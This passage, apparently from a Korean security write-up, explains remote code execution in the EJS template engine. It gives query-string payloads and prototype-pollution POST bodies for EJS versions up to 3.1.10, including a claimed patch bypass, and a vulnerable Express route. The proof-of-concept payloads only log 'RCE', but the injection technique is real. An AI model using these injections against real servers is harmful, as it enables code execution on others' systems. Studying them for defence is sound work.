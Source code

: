 #### EJS < 3.1.7

```plaintext
http://localhost:3000/?id=2&settings[view options][outputFunctionName]=x;console.log('rce!!');x
```

#### EJS <= 3.1.10

```plaintext
http://localhost:3000/?id=2&settings[view options][client]=1&settings[view options][escapeFunction]=x;console.log('rce!!');x
```

### EJS RCE with prototype pollution

해당 취약점은 아래의 코드에서 발생한다. 물론, 인자로 아무것도 안 넘겨주는 경우도 발생한다.

```js
app.post("/a", (req, res) => {
  merge({}, req.body);
  res.render("index", { foo: "bar" });
});
```

이 취약점은, `prototype pollution`을 통해 발생한다. 즉, `prototype pollution`이 `RCE`까지 연결될 수 있는 것이다. 또한, `prototype pollution`으로 발생하는 취약점은 `EJS@3.1.10`에서 한 번 패치가 됐지만, 간단한 우회 방법을 통해서 `EJS@3.1.10`에서도 발생한다.

그럼 페이로드들을 알아보자.

#### EJS < 3.1.10

```typescript
await r.post("/a", {
  constructor: {
    prototype: {
      client: 1,
      escapeFunction: `console.log;console.info("RCE!!!")`,
    },
  },
});
```

#### EJS <= 3.1.10

```typescript
await r.post("/a", {
  constructor: {
    prototype: {
      "view options": {
        client: 1,
        escapeFunction: `console.log;console.info("RCE!!!")`,
      },
    },
  },
});
```
